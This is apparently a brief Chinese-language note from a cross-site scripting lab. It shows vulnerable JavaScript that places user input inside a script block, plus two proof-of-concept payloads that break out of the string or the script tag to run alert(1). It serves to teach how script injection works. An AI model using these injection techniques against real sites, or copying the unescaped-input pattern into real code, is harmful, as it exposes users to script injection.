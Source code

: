 # 1

```

    $ms='2';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
//            alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }

    }


```

$ms里为我们输入的东西

这里我们尝试闭合标签  //去掉旧的';

```
';alert(1)//
```

# 2

```
'</script><script>alert(1)</script>
```

这个是直接把第一个`<script>`标签给闭合了